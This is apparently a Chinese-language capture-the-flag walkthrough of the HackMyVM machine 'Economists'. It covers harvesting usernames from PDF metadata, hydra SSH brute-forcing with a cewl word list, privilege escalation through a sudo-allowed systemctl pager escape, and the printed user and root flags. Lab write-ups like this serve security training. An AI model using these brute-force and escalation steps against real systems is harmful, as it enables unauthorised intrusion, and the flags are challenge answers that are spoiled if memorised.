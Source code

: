 # Economists

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Economists

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

80 上没看到信息，文件都是静态 html 文件没有接口。

ftp 可匿名登陆，都是 pdf 文件，看看 pdf 文件的元数据信息吧，就发现了几个 author 名字：

```
exiftool *.pdf|grep Author|awk -F ':' '{print $2}'|sed 's/ //g'
joseph
richard
crystal
catherine
catherine
```

有了用户名，现在就是需要一个密码字典，先使用 cewl 收集一下 web 上的单词作为密码字典：

```
cewl -w pass.txt -d 3 http://192.168.5.40/
```

然后对 ssh 进行爆破

```
hydra -t 64 -L user -P pass.txt ssh://192.168.5.40

[22][ssh] host: 192.168.5.40   login: joseph   password: wealthiest
```

ssh 进行登陆，先得到了 user flag:

```
joseph@elite-economists:~$ cat user.txt
Flag: HMV{37q3p33CsMJgJQbrbYZMUFfTu}
```

sudo -l 显示 /usr/bin/systemctl status 执行之后页面很长，显示的类似于 less 查看长文件时，这里就可以使用类似于 less 中的提权 !/bin/bash 拿到最终 flag:

```
root@elite-economists:~# cat root.txt
Flag: HMV{NwER6XWyM8p5VpeFEkkcGYyeJ}
```
